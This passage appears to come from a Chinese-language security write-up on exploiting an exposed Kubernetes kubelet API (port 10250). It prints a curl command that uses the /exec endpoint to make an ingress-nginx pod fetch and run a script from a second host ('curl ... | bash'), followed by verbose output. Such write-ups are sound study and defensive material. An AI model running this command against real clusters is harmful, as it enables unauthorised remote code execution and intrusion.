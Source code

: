 [![](assets/1698893355-62b1e624e8680efe4da9d7f76bb33ac0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171318-bcba57c6-7316-1.png)  
发现也为成功，可能是笔者这里的环境问题所致，下面给出一个成功的截图：

[![](assets/1698893355-bd1eb53540e6ae2cea63740ab7f0ff94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171332-c5128ea2-7316-1.png)  
之后会再执行端返回用于查看执行结果的链接地址：

```plain
[root@localhost ~]# curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"
* About to connect() to 192.168.4.68 port 10250 (#0)
*   Trying 192.168.4.68...
* Connected to 192.168.4.68 (192.168.4.68) port 10250 (#0)
* Initializing NSS with certpath: sql:/etc/pki/nssdb
* skipping SSL peer certificate verification
* SSL connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate:
*   subject: CN=192.168.4.68@1544518989
*   start date: 12月 11 09:03:09 2018 GMT
*   expire date: 12月 11 09:03:09 2019 GMT
*   common name: 192.168.4.68@1544518989
*   issuer: CN=192.168.4.68@1544518989
> POST /exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1 HTTP/1.1
> User-Agent: curl/7.29.0
> Host: 192.168.4.68:10250
> Accept: */*
```